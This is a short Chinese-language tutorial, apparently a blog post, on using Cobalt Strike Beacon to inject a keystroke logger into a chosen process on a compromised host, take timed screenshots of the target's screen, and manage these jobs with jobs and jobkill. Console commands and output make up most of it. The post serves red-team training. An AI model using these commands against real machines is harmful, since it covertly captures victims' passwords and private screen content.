





# 0x00 Beacon 键盘记录
Beacon提供的键盘记录个人感觉还是比较强大

```
beacon> help keylogger
Use: keylogger [pid] <x86|x64>
     keylogger

Inject a keystroke logger into the specified process. Use jobkill to terminate
this task early.

Use keylogger with no arguments to spawn a temporary process and inject the 
keystroke logger into it.
```
可以看到简介 可以使用2种方式 一种是进程注入 一种是直接使用 到这里我顺便介绍一些命令吧 ps 显示目标进程

然后我们选择一个进程来注入 

```
beacon> keylogger 2460
[*] Tasked beacon to log keystrokes in 2460 (x86)
[+] host called home, sent: 65610 bytes
[+] received keystrokes
```
我们在 View>Keystrokes 可以看到 效果


不得不说Cobalt Strike还是比较人性化，他给我们提供了很方便的操作，能多选目标 然后右键 获取进程注入键盘记录，屏幕截屏等。



这里需要注意一下你的注入User是你想记录的用户进程


# 0x01 Screenshost

```
beacon> screenshot 1344 x86 90
[*] Tasked beacon to take screenshots in 1344/x86 for next 90 seconds
[+] host called home, sent: 162832 bytes
[+] host called home, sent: 58 bytes
[*] received screenshot (116332 bytes)
[*] received screenshot (112961 bytes)

```
同样 也是可以使用批量的

操作跟键盘记录一样，但是选择后他会选择一个记录多长时间，自己按需求选择

我们在 View>Screenshost 可以看到 效果


在我们不需要这些进程的时候 可以 在beacon里面运行 jobs 查看任务进程在用jobkill  JID来结束进程

```
beacon> keylogger 1344 x86
[*] Tasked beacon to log keystrokes in 1344 (x86)
[+] host called home, sent: 65610 bytes
beacon> jobs
[*] Tasked beacon to list jobs
[+] host called home, sent: 8 bytes
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 5    1344  keystroke logger

beacon> jobkill 5
[*] Tasked beacon to kill job 5
[+] host called home, sent: 10 bytes
```

# 0x02 文末
貌似Cobalt Strike 截图的时候目标系统会有明显的卡顿，还有个远控功能还是建议大家别用不是很好（用时半小时）

### 本文如有错误，请及时提醒，以免误导他人
